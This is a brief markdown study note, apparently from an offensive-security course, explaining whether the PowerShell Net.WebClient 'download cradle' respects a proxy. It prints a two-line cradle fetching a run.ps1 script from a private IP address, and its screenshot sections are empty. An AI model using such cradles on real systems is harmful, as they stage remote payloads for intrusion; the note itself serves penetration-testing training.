

## Why is proxy-awareness needed
We have primarily used the _Net.WebClient_ download cradle.

We can validate this by running the following code in a powershell with and without a proxy:
```Powershell
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.150/run.ps1")
```

Without Proxy:


With Proxy:


We can see that the system.net.webclient is aware of a proxy in use.


